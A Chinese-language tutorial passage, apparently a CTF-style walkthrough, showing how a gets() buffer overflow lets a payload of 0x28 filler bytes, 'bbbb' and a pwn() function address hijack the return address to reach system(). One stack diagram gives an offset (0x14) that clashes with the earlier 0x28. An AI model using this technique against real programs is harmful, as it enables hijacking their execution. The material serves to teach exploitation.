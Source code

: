 我们可以看到
```assembly
lea 		-028(%ebp), %eax   ;将某字符串地址传给%eax寄存器
push	 %eax							  ;将%eax中的值压入栈中,作为下一个函数gets()的参数
call		8049030<gets@plt>;调用gets()
```
这三句话首先传参,然后调用函数,然后程序释放栈并返回.该字符串距离ebp的长度为0x28,对应的栈结构为:

```plain
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x28-->+-----------------+
```

接着我们继续查找pwn()函数的地址,其地址为0x08049182.
```assembly
08049182 <pwn>:
 8049182:       55                      push   %ebp
 8049183:       89 e5                   mov    %esp,%ebp
 8049185:       53                      push   %ebx
 8049186:       83 ec 04                sub    $0x4,%esp
 8049189:       e8 b4 00 00 00          call   8049242 <__x86.get_pc_thunk.ax>
 804918e:       05 72 2e 00 00          add    $0x2e72,%eax
 8049193:       83 ec 0c                sub    $0xc,%esp
 8049196:       8d 90 08 e0 ff ff       lea    -0x1ff8(%eax),%edx
 804919c:       52                      push   %edx
 804919d:       89 c3                   mov    %eax,%ebx
 804919f:       e8 ac fe ff ff          call   8049050 <system@plt>
 80491a4:       83 c4 10                add    $0x10,%esp
 80491a7:       90                      nop
 80491a8:       8b 5d fc                mov    -0x4(%ebp),%ebx
 80491ab:       c9                      leave  
 80491ac:       c3                      ret   
```

加入我们输入的字符串为:`0x28 * 'a' + 'bbbb' + pwn_addr`,那么由于gets只有读到回车才停,所以这一段字符串会把saved_ebp覆盖为bbbb,将ret_addr覆盖为pwn_addr,那么,此时栈的结构为:

```plain
                                           +-----------------+
                                           |    0x08049182   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```
